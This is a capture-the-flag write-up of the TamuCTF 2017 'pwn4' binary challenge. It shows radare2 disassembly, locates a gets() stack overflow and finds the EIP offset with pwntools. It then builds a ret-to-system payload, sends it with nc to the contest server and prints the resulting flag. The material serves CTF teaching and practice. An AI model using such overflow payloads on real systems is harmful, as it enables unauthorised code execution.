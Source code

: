 ```yaml
---
author:
  email: tzaoh1@gmail.com
  github: https://github.com/tzaoh
  image:
  - /images/avatar-64x64.png
  name:
  - Tzaoh
cardbackground: 'white'
cardtitlecolor: 'orange'
post_categories:
- CTFs
date: 2017-08-11T18:56:18+02:00
description: TamuCTF 2017 - pwn4
tags:
- CTF
- TamuCTF
- 2017
title: "TamuCTF 2017 - Pwn 4"
summary: "Is curious that this specific challenge had more value than the previous one ([pwn3](../pwn3/pwn3.md)). As we will see it was way easier."
cardthumbimage: "/assets/TamuCTF2017/title.png"
---
```


![Pwn4 challenge description](/assets/TamuCTF2017/pwn4/1-pwn4_description.png) 

Is curious that this specific challenge had more value than the previous one ([pwn3](../pwn3/pwn3.md)).  
As we will see below, it was way easier. Lets take a look with r2.

```bash
$ wget -q https://github.com/BlackHoods/BlackHoods.github.io/raw/master/assets/TamuCTF2017/pwn4/pwn4
$ r2 -A -c 'afl' pwn4
```

{{< highlight r2 "hl_lines=28 29 30 31" >}}
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze len bytes of instructions for references (aar)
[x] Analyze function calls (aac)
[x] Use -AA or aaaa to perform additional experimental analysis.
[x] Constructing a function name for fcn.* and sym.func.* functions (aan)
0x08048330    3 35           sym._init
0x08048353    1 25           fcn.08048353
0x0804836c    1 4            sub.gets_12_36c
0x08048370    1 6            sym.imp.gets
0x08048376    2 10   -> 22   fcn.08048376
0x08048380    1 6            sym.imp.puts
0x08048386    2 10   -> 22   fcn.08048386
0x08048390    1 6            sym.imp.system
0x08048396    2 10   -> 22   fcn.08048396
0x080483a0    1 6            sym.imp.__libc_start_main
0x080483a6    2 10   -> 22   fcn.080483a6
0x080483b0    1 6            sym.imp.setvbuf
0x080483b6    2 10   -> 22   fcn.080483b6
0x080483c0    1 1            sub.__gmon_start___252_3c0
0x080483c1    1 15           fcn.080483c1
0x080483d0    1 33           entry0
0x080483f1    1 1            fcn.080483f1
0x08048400    1 4            sym.__x86.get_pc_thunk.bx
0x08048410    4 43           sym.deregister_tm_clones
0x0804843c    4 57           fcn.0804843c
0x08048475    3 41           fcn.08048475
0x080484a0    8 43   -> 93   sym.frame_dummy
0x080484cb    1 25           sym.flag_func
0x080484e4    1 25           sym.func2
0x080484fd    1 24           sym.func1
0x08048515    1 71           sym.main
0x08048560    4 93           sym.__libc_csu_init
0x080485bd    1 5            fcn.080485bd
0x080485c2    1 22           fcn.080485c2
{{< /highlight >}}

We can see four interesting functions:

{{< highlight r2 "hl_lines=10 12 41 71" >}}
[0x080483d0]> s sym.flag_func; Vp
[0x080484cb 16% 240 pwn4]> pd $r @ sym.flag_func                         
┌ (fcn) sym.flag_func 25
│   sym.flag_func ();
│           0x080484cb      55             push ebp
│           0x080484cc      89e5           ebp = esp                       
│           0x080484ce      83ec08         esp -= 8                     
│           0x080484d1      83ec0c         esp -= 0xc                 
│         ; "/bin/cat flag2.txt"        
│           0x080484d4      68e0850408     push str._bin_cat_flag2.txt
│         ; int system(const char *string) ; sym.imp.system
│           0x080484d9      e8b2feffff     sym.imp.system ()
│           0x080484de      83c410         esp += 0x10
│           0x080484e1      90                                   
│           0x080484e2      c9                                   
└           0x080484e3      c3                                     
┌ (fcn) sym.func2 25                                             
│   sym.func2 ();                                                
│           0x080484e4      55             push ebp              
│           0x080484e5      89e5           ebp = esp             
│           0x080484e7      83ec08         esp -= 8              
│           0x080484ea      83ec0c         esp -= 0xc            
│           0x080484ed      68f3850408     push str.Nothing_to_see_here
│         ; int puts(const char *s)                      
│           0x080484f2      e889feffff     sym.imp.puts ()
│           0x080484f7      83c410         esp += 0x10
│           0x080484fa      90                                               
│           0x080484fb      c9                                   
└           0x080484fc      c3                                   
┌ (fcn) sym.func1 24
│   sym.func1 ();
│           ; var int local_ch @ ebp-0xc
│              ; CALL XREF from 0x0804854a (sym.main)
│           0x080484fd      55             push ebp
│           0x080484fe      89e5           ebp = esp
│           0x08048500      83ec18         esp -= 0x18
│           0x08048503      83ec0c         esp -= 0xc
│           0x08048506      8d45f4         eax = [local_ch]
│           0x08048509      50             push eax
│         ; char*gets(char *s)
│           0x0804850a      e861feffff     sym.imp.gets ()           
│           0x0804850f      83c410         esp += 0x10
│           0x08048512      90                        
│           0x08048513      c9                        
└           0x08048514      c3                          
┌ (fcn) sym.main 71         
│   sym.main ();
│           ; var int local_4h_2 @ ebp-0x4
│           ; var int local_4h @ esp+0x4
│              ; DATA XREF from 0x080483e7 (entry0)
│           0x08048515      8d4c2404       ecx = [local_4h]
│           0x08048519      83e4f0         esp &= 0xfffffff0
│           0x0804851c      ff71fc         push dword [ecx - 4]
│           0x0804851f      55             push ebp
│           0x08048520      89e5           ebp = esp
│           0x08048522      51             push ecx
│           0x08048523      83ec04         esp -= 4
│           0x08048526      a13ca00408     eax = dword obj.stdout
│           0x0804852b      6a00           push 0
│           0x0804852d      6a00           push 0
│           0x0804852f      6a02           push 2
│           0x08048531      50             push eax
│         ; int setvbuf(FILE*stream, char*buf, int mode, size_t size)
│           0x08048532      e879feffff     sym.imp.setvbuf ()
│           0x08048537      83c410         esp += 0x10
│           0x0804853a      83ec0c         esp -= 0xc
│           0x0804853d      6807860408     push str.I_require_an_input:
│         ; int puts(const char *s)
│           0x08048542      e839feffff     sym.imp.puts ()
│           0x08048547      83c410         esp += 0x10
│           0x0804854a      e8aeffffff     sym.func1 ()
│           0x0804854f      b800000000     eax = 0
│           0x08048554      8b4dfc         ecx = dword [local_4h_2]
│           0x08048557      c9                                     
│           0x08048558      8d61fc         esp = [ecx - 4]
└           0x0804855b      c3                                               
{{< /highlight >}}

> By the way the command `s sym.flag_func; Vp` can be splitted and explained like this:  
> `s sym.flag_func` - set the position of the cursor at the beginning of the function.  
> `V` - Change the visual mode.  
> `p` - change mode view.

Here they are, lets take a look at those functions.

Obviously we should try to execute `sym.flag_func()` function, it seems it will try print a file called `flag2.txt` (strange name right? why 2?) using the `cat` command on the remote server. But that function is never called. You can check it by yourself with:
```r2
[0x080484f7]> axt sym.flag_func
```

Then we need to dig a bit more.

1. `sym.func2()` is just printing a message (it even tells you not to waste your time with it). So we can ignore this one.
2. `sym.func1()` is a bit more interesting because it is using the unsecure function `gets()`. If it is called somewhere, we would be able to overwrite the `$eip` register.
3. We dont need to cross our fingers a lot of time because we fastly see that `sym.func1()` is being called from `main()`! yay! :v: .

Lets figure out, how many bytes do we need to overwrite `$eip` register.
```bash
$ pwn cyclic 40 ; To generate string with unique subsequences.
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaa
$ r2 -R "stdin=\"`pwn cyclic 40`\"" -A -d -c 'dc' pwn4
```
{{< highlight r2 "hl_lines=18 19" >}}
Process with PID 12102 started...
= attach 12102 12102
bin.baddr 0x08048000
Using 0x8048000
Assuming filepath /root/pwn4
asm.bits 32
[x] Analyze all flags starting with sym. and entry0 (aa)
TODO: esil-vm not initialized
[Cannot determine xref search boundariesr references (aar)
[x] Analyze len bytes of instructions for references (aar)
[x] Analyze function calls (aac)
[x] Use -AA or aaaa to perform additional experimental analysis.
[x] Constructing a function name for fcn.* and sym.func.* functions (aan)
ptrace (PT_ATTACH): Operation not permitted
= attach 12102 12102
I require an input:
child stopped with signal 11
[+] SIGNAL 11 errno=0 addr=0x61616165 code=1 ret=0
[0x61616165]>
{{< /highlight >}}

```bash
$ pwn cyclic -l 0x61616165
16
```

So, we can overwrite the `$eip` register writing the next 4 bytes (from byte 17 to 20)!  
Now we create a file with the previously commented file (`flag2.txt`) to try this out.

{{< highlight bash "hl_lines=4" >}}
$ echo This is the flag > flag2.txt
$ python -c 'print("A"*16 + "\xcb\x84\x04\x08")' | ./pwn4
I require an input:
This is the flag
Segmentation fault
{{< /highlight >}}

Good! what will the remote server say?
```bash
$ python -c 'print("A"*16 + "\xcb\x84\x04\x08")' | nc pwn.ctf.tamu.edu 4324
I require an input:                                                                              Did you really think it would be that easy?
```

Ouch! that file was just a decoy. There must be a another one named `flag.txt` waiting for us.
> But how could we executed it? There is only one function which print a file and its name is hardcoded.

Well, that is not a problem, because there is a call to `system()`.
The only thing we need to do is to pass a different argument: `cat flag.txt` instead of `cat flag2.txt`.

If you inspect all the strings of the binary you may find surprise:

{{< highlight r2 "hl_lines=5" >}}
[0x61616165]> iz
vaddr=0x080485e0 paddr=0x000005e0 ordinal=000 sz=19 len=18 section=.rodata type=ascii string=/bin/cat flag2.txt
vaddr=0x080485f3 paddr=0x000005f3 ordinal=001 sz=20 len=19 section=.rodata type=ascii string=Nothing to see here
vaddr=0x08048607 paddr=0x00000607 ordinal=002 sz=20 len=19 section=.rodata type=ascii string=I require an input:
vaddr=0x0804a028 paddr=0x00001028 ordinal=000 sz=18 len=17 section=.data type=ascii string=/bin/cat flag.txt
{{< /highlight >}}

As you may know, in order to pass the arguments to `system` they need to be pushed into the stack. In case of a string not its value but its reference (a pointer `0x0804a028` in this case).

Because we can overwrite the stack we can "imitate" a push into it:

1. Instead of starting in the address of `sym.flag_func()` (`0x080484cb`) we will use `system()` one (`0x080484d9`).  
`$ python -c 'print("A"*16 + "\xd9\x84\x04\x08")'`  
2. We need to push the pointer to the string to indicate `system()` which is its argument.  
`$ python -c 'print("A"*16 + "\xd9\x84\x04\x08" + "\x28\xa0\x04\x08")'`

Lets send to the server:
```bash
$ python -c 'print("A"*16 + "\xd9\x84\x04\x08" + "\x28\xa0\x04\x08")' | nc pwn.ctf.tamu.edu 4324
I require an input:
gigem{R3TURN_0R13NT3D_PR0F1T}
```

Answer: gigem{R3TURN_0R13NT3D_PR0F1T}

### Complete video
<a href="https://asciinema.org/a/drr8rhjxvoqpmu6ke8czn6hwf?autoplay=1" target="_blank"><img src="https://asciinema.org/a/drr8rhjxvoqpmu6ke8czn6hwf.png" /></a>


### Tools used and some references:

 * [radare2](https://github.com/radare/radare2) - To analyze the binary.
 * [pwntools](https://github.com/Gallopsled/pwntools) and [cyclic](http://docs.pwntools.com/en/stable/util/cyclic.html#pwnlib.util.cyclic.cyclic) - To generate unique substrings.
 * [asciinema](https://asciinema.org) - To record the session.